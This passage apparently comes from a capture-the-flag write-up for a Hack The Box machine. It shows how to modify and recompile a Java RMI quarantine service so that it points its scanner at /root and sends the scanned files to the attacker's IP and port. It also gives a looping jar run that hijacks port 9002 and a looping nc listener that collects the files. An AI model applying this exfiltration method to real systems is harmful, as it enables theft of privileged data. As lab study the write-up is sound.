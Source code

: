 Here are the parameters we can change:

* `quarantineDirectory` = `/quarantine`
* `monitorDirectory` = `/root`
* `clamHost` = Our IP
* `clamPort` = Our port
* `clamTimeout` = Any arbitrary number (I set it at 2000)

We can modify the `QuarantineServiceImpl.class` file as such:

```java
package com.htb.hosting.rmi.quarantine;

import com.htb.hosting.rmi.FileServiceConstants;
import java.io.File;
import java.rmi.RemoteException;
import java.util.logging.Logger;

public class QuarantineServiceImpl implements QuarantineService {
  private static final Logger logger = Logger.getLogger(QuarantineServiceImpl.class.getSimpleName());
  
  private static final QuarantineConfiguration DEFAULT_CONFIG;
  
  public QuarantineConfiguration getConfiguration() throws RemoteException {
    logger.info("client fetching configuration");
    return DEFAULT_CONFIG;
  }
  static {
  DEFAULT_CONFIG = new QuarantineConfiguration (new File ("/quarantine"), new File("/root/"), "10.10.14.24", 4444, 2000);
  }
}
```

Then, we can recompile this file and the rest of the `.jar`:

```
$ javac com/htb/hosting/rmi/quarantine/QuarantineServiceImpl.java
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
$ jar cmvf META-INF/MANIFEST.MF registry.jar .
```

Then, we need to keep running the code to hijack port 9002 and continuously listen on our own port 4444. The reason we need to do this is because:

* Port 9002 is already used within the machine and we want to hijack it whenever possible, which can take a while since it is always being used by `root`.
* The listener port must be activated multiple times because once it captures a request, the scan would not continue for the rest of the files. By having it continuously executed, it allows for scanning of multiple files.

```
developer@registry:/tmp$ while true; java -jar registry.jar; done

$ while true; do nc -lvnp 4444; done
```
